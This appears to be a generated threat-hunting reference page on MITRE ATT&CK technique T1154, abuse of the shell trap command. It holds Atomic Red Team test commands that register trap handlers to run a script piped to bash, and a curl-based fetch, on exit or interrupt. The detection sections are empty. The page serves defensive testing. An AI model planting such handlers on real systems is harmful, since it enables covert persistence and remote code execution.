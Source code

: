 
# Trap

## Description

### MITRE Description

> The <code>trap</code> command allows programs and shells to specify commands that will be executed upon receiving interrupt signals. A common situation is a script allowing for graceful termination and handling of common  keyboard interrupts like <code>ctrl+c</code> and <code>ctrl+d</code>. Adversaries can use this to register code to be executed when the shell encounters specific interrupts either to gain execution or as a persistence mechanism. Trap commands are of the following format <code>trap 'command list' signals</code> where "command list" will be executed when "signals" are received.(Citation: Trap Manual)(Citation: Cyberciti Trap Statements)

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: intentionally left blank
* Permissions: ['User', 'Administrator']
* Platforms: ['Linux', 'macOS']
* Remote: intentionally left blank
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1154

## Potential Commands

```
trap "nohup sh $PathToAtomicsFolder/T1154/src/echo-art-fish.sh | bash" EXIT
exit
trap "nohup sh $PathToAtomicsFolder/T1154/src/echo-art-fish.sh | bash" SIGINt

Bash
icbc @ icbc: / $ trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh

> ^ C
Bash
icbc @ icbc: / $ history

693 trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh
```

## Commands Dataset

```
[{'command': 'trap "nohup sh $PathToAtomicsFolder/T1154/src/echo-art-fish.sh | '
             'bash" EXIT\n'
             'exit\n'
             'trap "nohup sh $PathToAtomicsFolder/T1154/src/echo-art-fish.sh | '
             'bash" SIGINt\n',
  'name': None,
  'source': 'atomics/T1154/T1154.yaml'},
 {'command': 'Bash\n'
             "icbc @ icbc: / $ trap 'nohup curl -sS "
             'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh\n'
             '\n'
             '> ^ C',
  'name': 'Bash',
  'source': 'https://raw.githubusercontent.com/12306Bro/Threathunting-book/master/{}'},
 {'command': 'Bash\n'
             'icbc @ icbc: / $ history\n'
             '\n'
             "693 trap 'nohup curl -sS "
             'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh',
  'name': 'Bash',
  'source': 'https://raw.githubusercontent.com/12306Bro/Threathunting-book/master/{}'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Trap': {'atomic_tests': [{'description': 'After '
                                                                   'exiting '
                                                                   'the shell, '
                                                                   'the script '
                                                                   'will '
                                                                   'download '
                                                                   'and '
                                                                   'execute.\n'
                                                                   '\n'
                                                                   'After '
                                                                   'sending a '
                                                                   'keyboard '
                                                                   'interrupt '
                                                                   '(CTRL+C) '
                                                                   'the script '
                                                                   'will '
                                                                   'download '
                                                                   'and '
                                                                   'execute.\n',
                                                    'executor': {'command': 'trap '
                                                                            '"nohup '
                                                                            'sh '
                                                                            '$PathToAtomicsFolder/T1154/src/echo-art-fish.sh '
                                                                            '| '
                                                                            'bash" '
                                                                            'EXIT\n'
                                                                            'exit\n'
                                                                            'trap '
                                                                            '"nohup '
                                                                            'sh '
                                                                            '$PathToAtomicsFolder/T1154/src/echo-art-fish.sh '
                                                                            '| '
                                                                            'bash" '
                                                                            'SIGINt\n',
                                                                 'name': 'sh'},
                                                    'name': 'Trap',
                                                    'supported_platforms': ['macos',
                                                                            'linux']}],
                                  'attack_technique': 'T1154',
                                  'display_name': 'Trap'}}]
```

# Tactics


* [Execution](../tactics/Execution.md)

* [Persistence](../tactics/Persistence.md)
    

# Mitigations

None

# Actors

None

